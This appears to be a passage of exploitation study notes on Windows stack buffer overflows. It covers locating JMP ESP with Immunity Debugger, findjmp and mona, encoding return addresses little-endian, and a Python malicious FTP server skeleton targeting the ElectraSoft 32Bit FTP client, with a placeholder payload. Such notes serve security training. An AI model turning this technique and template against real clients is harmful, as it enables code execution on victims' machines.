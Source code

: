 In Immunity Debugger:
```
	CTRL+F or Search For > Command
	JMP ESP or CALL ESP
```

- We can find with findjmp2 tool.
```
	findjmp.exe ntdll.dll esp
```


- with mona
```
	!mona jmp -r esp 
	!mona jmp -r esp -m kernel = if we wanna to use specific module
-r = register
-m = module
```

 
- Remember we are working on little-endian systems. So we have to revert the address.
in this case: 0x77267D3B = \x3B\x7D\x26\x77


- After getting the address of a CALL ESP we need to create a payload that exploits the BoF vuln.

> Overview: We need to overwrite the EIP to point to our JMP ESP, while ESP has been updated to point to the NOPs at the beginning of our shellcode


## Exploiting a Real-World Buffer Overflow
- ElectraSoft 32Bit FTP

```bash

#!/usr/bin/python

from socket import *

payload = "Here we will insert the payload"

s = socket(AF_INET, SOCK_STREAM)
s.bind(("127.0.0.1", 21))
s.listen(1)
print "[+] Listening on [FTP] 21"
c, addr = s.accept()

print "[+] Connection accepted from: %s" % (addr[0])

c.send("220 "+payload+"\r\n")
c.recv(1024)
c.close()
print "[+] Client exploited !! quitting"
s.close()

```
